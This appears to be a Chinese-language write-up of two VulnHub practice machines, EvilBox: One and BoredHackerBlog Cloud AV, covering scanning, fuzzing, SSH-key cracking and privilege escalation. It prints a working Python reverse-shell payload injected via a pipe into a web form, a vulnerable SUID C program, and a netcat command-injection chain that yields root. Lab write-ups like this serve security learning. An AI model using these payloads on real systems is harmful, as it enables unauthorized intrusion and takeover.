# Vuln EvilBox: One & BoredHackerBlog_Cloud_AV


## EvilBox: One
### 靶场链接
https://www.vulnhub.com/entry/evilbox-one,736/

#### 日常扫描
![image.png](https://www.helloimg.com/i/2025/01/09/677f6bd101d98.png)
发现这玩意靶机（这个需要自己配置一下网卡）
nmap扫描端口
![image-1.png](https://www.helloimg.com/i/2025/01/09/677f6c1aa458a.png)
没有用，dis或者是dirb扫一下
![image-2.png](https://www.helloimg.com/i/2025/01/09/677f6c1be4db5.png)
发现这几个，一个一个点进去看一眼，http://192.168.64.4/secret/ 网页是纯白的，
![image-4.png](https://www.helloimg.com/i/2025/01/09/677f6c1b24285.png)
#### 爆破
扫一下尾缀发现真有.php，bp抓包看一下
![image-5.png](https://www.helloimg.com/i/2025/01/09/677f6c1b66d3d.png)
用fuzz爆破一下，
![image-6.png](https://www.helloimg.com/i/2025/01/09/677f6c1c9baf1.png)
发现
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
可能是ssh的用户，页面上去看一样是密码，gpt格式化一下
![image-7.png](https://www.helloimg.com/i/2025/01/09/677f6c20aea62.png)
john去爆破私钥
>python /usr/share/john/ssh2john.py id_rsa > hash
john hash

得到密码是unicorn
#### ssh提权
![image-8.png](https://www.helloimg.com/i/2025/01/09/677f6c1d07bbb.png)
ssh上去
![image-9.png](https://www.helloimg.com/i/2025/01/09/677f6c1d55f91.png)
发现/etc/passwd可以修改，直接openssl passwd -1生成密码，然后把root后面的x改了，还有一个方法可以用https://blog.csdn.net/weixin_46700042/article/details/108813878
linpeas过两天考完试再学学怎么用（）
 
## BoredHackerBlog_Cloud_AV
### 靶场链接
https://www.vulnhub.com/entry/boredhackerblog-cloud-av,453/

#### 日常扫描
![BoredHackerBlog_Cloud_AV.png](https://www.helloimg.com/i/2025/01/09/677f70c3545a5.png)
发现靶机，nmap启动
![BoredHackerBlog_Cloud_AV1.png](https://www.helloimg.com/i/2025/01/09/677f70c2e5b89.png)
有个http服务页面，上去看一眼
#### sql注入/密码爆破
![BoredHackerBlog_Cloud_AV2.png](https://www.helloimg.com/i/2025/01/09/677f70c31c38b.png)
登陆框页面，sql注入/密码爆破都可以，当然了，身为密码手，直接弱密钥试试，password直接进去了（）
![BoredHackerBlog_Cloud_AV3.png](https://www.helloimg.com/i/2025/01/09/677f70c32479e.png)
#### 反弹shell
里面还有个框，试一下管道符拼接，没啥用，有python，直接反弹shell扔进去
>1|python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.64.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

本地开nc监听一下
![BoredHackerBlog_Cloud_AV4.png](https://www.helloimg.com/i/2025/01/09/677f70c2ead2f.png)
有个.app和.sql，可能是账号密码什么的，直接拉取到本地
![BoredHackerBlog_Cloud_AV5.png](https://www.helloimg.com/i/2025/01/09/677f70c2b3a36.png)
![BoredHackerBlog_Cloud_AV6.png](https://www.helloimg.com/i/2025/01/09/677f70c524d88.png)
![BoredHackerBlog_Cloud_AV7.png](https://www.helloimg.com/i/2025/01/09/677f70c5da06d.png)
发现是密码，靶机有22端口，看看能不能ssh，尝试爆破后没有用
查了一下应该是suid提权（）
> find / -perm /4000 -type f 2>/dev/null

![BoredHackerBlog_Cloud_AV8.png](https://www.helloimg.com/i/2025/01/09/677f70c62d392.png)
发现scanner这个，刚才用过，可能还是在这里，进入文件夹，看一下权限
![BoredHackerBlog_Cloud_AV9.png](https://www.helloimg.com/i/2025/01/09/677f70c5eb945.png)
发现root了，甚至有个.c文件，看看
```
#include <stdio.h>

int main(int argc, char *argv[])
{
char *freshclam="/usr/bin/freshclam";

if (argc < 2){
printf("This tool lets you update antivirus rules\nPlease supply command line arguments for freshclam\n");
return 1;
}

char *command = malloc(strlen(freshclam) + strlen(argv[1]) + 2);
sprintf(command, "%s %s", freshclam, argv[1]);
setgid(0);
setuid(0);
system(command);
return 0;

}
```
我们需要注意的是ClamAV是一个linux的病毒扫描软件。freshclam相当于是一个更新clamav的病毒库的功能。同时对输入的参数进行的长度的限制，同时要求必须有参数的传入。这玩意参数会扔到system执行，那么反弹shell试试

>./update_cloudav "aasff | nc 192.168.64.3 5000 | /bin/bash | nc 192.168.64.3 6000"

连上去之后发现是root
![BoredHackerBlog_Cloud_AV10.png](https://www.helloimg.com/i/2025/01/09/677f70c6008ca.png)
![BoredHackerBlog_Cloud_AV11.png](https://www.helloimg.com/i/2025/01/09/677f70c6479df.png)
